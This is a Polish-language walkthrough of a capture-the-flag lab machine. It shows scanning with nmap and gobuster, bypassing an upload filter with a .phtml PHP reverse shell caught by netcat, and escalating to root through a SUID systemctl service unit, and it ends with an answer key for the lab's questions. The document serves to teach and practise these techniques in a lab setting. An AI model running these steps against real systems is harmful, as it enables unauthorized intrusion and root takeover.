 1. Na początku musimy klasycznie połączyć się z VPN za pomocą OpenVPN.
Wchodzimy na nasz profil pobieramy plik do połączanienia wchodzimy w "/Downloads" i wpisujemy w nowym
terminalu:

``` $ openvpn <Nazwa>.ovpn ```


2. Po tym otwieramy zadanie nr. 1 i odpalamy instancję ( Deploy ).


3. Po tym wszystkim możemy powoli zaczynać. Pierwsze co robimy to skanujemy maszyne:

``` $ nmap -sC -sV -T4 -A <Adress Ip> -oA nmap.nmap ```

4. Z skanowania da się wydedykować, że na porcie "3333" działa Server Apache. Wpisujemy więc w naszą przeglądarke
AdressIp:3333 i patrzymy co na niej widnieje.

5. Teraz z racji, że szukanie ręcznie ścieżek na stronie może być bardzo monotonne i nie efektywne użyjemy dirb,
dirbuster, wfuzz, gobuster. W zależności w czym wam wygodniej. Ja użyje gobuster'a:

``` $ gobuster dir -u http://<ip>:3333/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt ```

6. Po chwili znajdziemy ściekę "/internal", więc sprawdzamy co tam jest. ( Ip:3333/internal ). Widzimy, że na stronie
możemy wysyłać pliki do serwera. Pierwsze co sprawdzamy to jakie pliki można dzięki temu wysłać, w większości 
przypadków można ominąć sprawdzenie.

7. Z racji że jestem na systemie "Kali" to użyje PHP shell. Skopiuj reverse-shell do katalogu roboczego:

``` $ cp /usr/share/webshells/php/php-reverse-shell.php . ```

8. Musimy teraz zedytować plik na nasz adress Ip i Port. Adress Ip to adress który po wpisaniu "ifconfig" widnieje
obok "tun0" ( Twoje ip w VPN ). Port ustawmy na "hakerski" 4444. ($ip, $port). I zapiszmy plik.
( Ja użyłem edytora "nano", ale można użyć takiego, w którym jest Ci wygodniej np. "vi" )

9. Żeby przechwycić reverse-shella przydałoby się nasłuchiwać port który ustawiliśmy. Użyjemy w tym celu "NetCat":

``` $ nc -nlvp 4444 ```(<--port)

10. Możesz zrobić kopie tego pliku na różne ścieżki ".html" ".php" ".php1" ".php2" ".php5" ".phtml". Ja sprawdzałem
próbując wgrać pliki ręcznie, ale ty w tym celu możesz użyć np. "BurpSuite".

11. Po sprawdzeniu na serwer udało sie wysłać plik z rozszerzeniem ".phtml". Więc sprawdzamy gdzie plik się wgrał w 
tym celu do ścieżki dodajemy "/uploads" i widzimy nasz plik reverse.

12. Klikamy w plik na serwerze ( W przeglądarce ) przez co się uruchamia i w terminalu gdzie uruchomiliśmy netcata
widzimy połączenie i możemy zacząć wydawać polecenia.

13. Wpisując np. "id" "whoami" widzimy nasze uprawnienia.

14. W tym momencie musimy zobaczyć do czego mamy uprawnienia wchodząc np. do home:
```
$ cd /home
$ ls
$ cd bill
$ cat user.txt
```

15. Wyświtliła nam się pierwsza "flaga" dla user'a.

16. Teraz szukamy plików binarnych SUID. SUID to w skrócie uprawnienia danego użytkowanika do danych plików:

```$ find / -user root -perm -4000 -print 2>/dev/null```

17. Widzimy teraz pare plików z ustawioną flagą SUID.

18. Teraz musimy zrobić atak o nazwie [Privilege Escalation](https://en.wikipedia.org/wiki/Privilege_escalation) do podniesienia naszych uprawnień systemowych. Scanując
flagę SUID znaleźliśmy plik o nazwie "systemctl".

Systemctl to plik binarny, który kontroluje interfejsy użytkowników i est odpowiedzialny np. za uruchamiane usługi
podczas rozruchu. Domyślnie systemctl przeszuka pliki w "/etc/system/systemd" w celu poszukiwania i obsłużenia
jednostek.

19. Na tej maszynie nie możemy tworzyć nowych plików w ścieżkach należących do root'a, ale możemy zmienić zmienne 
środowiskowe w już instniejącym, więc możemy zrobić PrivEsc.

20. Pierwsze co robimy to tworzymy zmienną środowiskową:

```$ priv=$(mktemp).service```

Teraz musimy stworzyć plik jednostkowy i przypisać go do zmiennej środowiskowej:

```$ echo '[Service]
ExecStart=/bin/bash -c "cat /root/root.txt > /opt/flag"
[Install] 
WantedBy=multi-user.target' > $priv
```


( Nie bój użyć się entera dopóki nie skończy się ' <-- to możemy dalej wpisywać w nowej linijce. )

21. To co przed chwilą zrobiliśmy to prostu utworzenie usługi, która wykona "Basha", a następnie odczyta falge z 
katalogu głównego root'a i zapisze ją w fladze / pliku w katalogu "/opt"

22. Teraz musimy odpalić plik jednostkowy za pomocą "systemctl":

```$ /bin/systemctl link $priv

$ /bin/systemctl enable --now $priv
```

23. Teraz możemy zobaczyć plik flag w katalogu "/opt":

```$ cat flag```

24. To tyle przed chwilą wykonaliśmy komendę dla użytkownika root.


// Uzupełnienie rubryk 

Zadanie.2

1) 6

2) 3.5.12

3) 400

4) DNS

5) Ubuntu

6) 3333

Zadanie 3.

1) /internal/

Zadanie 4.

1) .php

2) .phtml

3) bill

4) Twoja flaga dla użytkownika (user-www..)

Zadanie 5.

1) /bin/systemctl

2) Twoja flaga dla administratora (root)
